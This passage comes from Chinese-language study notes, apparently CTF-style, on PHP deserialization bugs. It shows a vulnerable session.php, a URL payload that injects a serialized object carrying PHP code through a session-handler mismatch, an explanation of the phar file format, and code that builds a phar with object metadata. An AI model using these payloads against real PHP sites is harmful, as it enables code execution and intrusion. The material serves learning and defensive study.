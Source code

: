```php
# session.php
<?php
error_reporting(0);
ini_set('session.serialize_handler','php_serialize');
session_start();
$_SESSION['kite'] = $_GET['kite'];
highlight_file(__FILE__);
?>

payload: session.php?kite=|O:7:"Nantong":1:{s:3:"nan";s:18:"<?php%20phpinfo();?>";}";}
之后再访问test.php
```



## phar反序列化
### phar文件结构
- phar文件是一种压缩文件、在PHP手册中可以看到各个数据块的信息
- phar的文件的读取是通过phar协议读取的、在读取phar文件的时候，文件内容会转换未对象，Meata-dara数据块的内容会被反序列化、

-四个部分
```
1. a stub 
一个标志，格式为xxx<?php xxx; __HALT_COMPILER();?>,前面内容不限，但必须以__HALT_COMPILER();?>来结尾，否则phar扩展将无法识别这个文件为phar文件。

2. manifest
phar文件本质上是一种压缩文件，其中每个被压缩文件的权限、属性等信息都放在这部分。这部分还会以序列化的形式存储用户自定义的meta-data，这里即为反序列化漏洞点。

3. contents
压缩文件的内容

4. signature
文件的签名内容
```

### demo 测试
- phar文件的制作可以使用php内置的Phar类来实现
- php.ini的phar.readonly设置为Off，否则无法生成phar文件
```php
<?php
    class TestObject {
    }

    @unlink("phar.phar");
    $phar = new Phar("phar.phar"); //后缀名必须为phar
    $phar->startBuffering();
    $phar->setStub("<?php __HALT_COMPILER(); ?>"); //设置stub
    $o = new TestObject();
    $phar->setMetadata($o); //将自定义的meta-data存入manifest
    $phar->addFromString("test.txt", "test"); //添加要压缩的文件
    //签名自动计算
    $phar->stopBuffering();
?>
```
